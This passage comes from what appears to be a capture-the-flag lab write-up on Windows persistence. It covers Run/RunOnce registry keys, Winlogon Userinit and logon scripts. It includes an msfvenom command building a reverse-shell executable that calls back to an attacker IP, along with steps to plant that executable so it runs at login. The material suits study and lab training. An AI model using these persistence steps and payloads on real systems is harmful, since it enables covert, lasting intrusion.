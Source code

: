 ```powershell
HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

The registry entries under `HKCU` apply only to the current user, while those under `HKLM` apply to everyone. Programs specified under the `Run` keys will execute each time the user logs in. Conversely, programs specified under the `RunOnce` keys will be executed only once.

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.28.215 LPORT=1337 -f exe -o revshell.exe
```

Upload the file as usual and then move it to `C:\Windows`. After that, we need to create a `REG_EXPAND_SZ` registry entry under:

```powershell
HKLM\Software\Microsoft\Windows\CurrentVersion\Run
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397327010/5869b6ed-e7ee-4620-9ae2-e7ed84d7c717.png){: .center-image }

Log in, and capture the shell using `Netcat`, and grab `flag11.exe`.

### Winlogon

Another way to automatically start a program upon login is by using the `Winlogon` component. This essentially loads Windows profiles once the credentials have been authenticated.

`Winlogon` utilizes registry keys located at:

```powershell
HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
```

* `Userinit` points to `userinit.exe`, which is responsible for restoring user profile preferences upon login.
    
* `shell` points to the operating system's shell, which is commonly `explorer.exe`.
    

Create a shell, upload it, and then transfer it to `C:\Windows`. After that, modify the Userinit registry value to incorporate `C:\Windows\revshell.exe`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1692397460030/ddc83e5e-213c-49e2-832c-ecea36b9cfab.png){: .center-image }

Sign out and then sign back in, and capture the shell using `Netcat`. Grab `flag12.exe` from here.

### Logon Scripts

Just like before, generate a payload and transfer it using `Evil-WinRM`. From there, create an environment variable for a user.
